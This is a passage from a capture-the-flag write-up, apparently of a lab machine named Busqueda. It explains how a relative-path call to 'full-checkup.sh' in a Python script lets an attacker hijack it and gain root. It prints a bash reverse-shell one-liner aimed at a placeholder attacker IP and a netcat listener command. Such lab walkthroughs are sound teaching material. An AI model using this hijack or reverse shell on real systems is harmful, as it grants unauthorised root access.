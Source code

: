 The `full-checkup` option is the only one that we haven't run yet. If we review the section of the `system-checkup.py` script that performs the full checkup, we find the following code:

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

The python script is running a separate bash script to perform the checkup. This particular code block is vulnerable to exploitation because of it's use of a `relative path` to call the `full-checkup.sh` script. 

A `path` is the unique location of a resource in the file system. An `absolute path` is a type of `path` that always begins from the file system root, leaving no room for any kind of misinterpretation. A `relative path` is a type of `path` that is defined with reference to the *current working directory*. 

```bash
/home/example/files/my-file.sh # absolute path
./files/my-file.sh # relative path (assuming the current directory is /home/example)
```

Creating our own `full-checkup.sh` script, and then running the `system-checkup.py` script *outside* of `/opt/scripts` will mean that *our* script will be executed. This happens because our script will have the same name as the one referenced in the source code above, and the script is being called *relative to our current working directory*. 

## Root Flag

To get our root flag, we're going to get another reverse shell, this time as `root`. To do this, we need to:

1. Create our own `full-checkup.sh` script in a directory we have access to (such as our home directory) and paste in a reverse shell command:

```
svc@busqueda:~$ nano full-checkup.sh

#!/bin/bash
bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1
```

2. Make the script executable:

```
svc@busqueda:~$ chmod +x full-checkup.sh
```

3. Start a listener on our attacking machine to listen for the incoming shell

```
svc@busqueda:~$ nc -lvnp 4444
listening on [any] 4444 ...
```
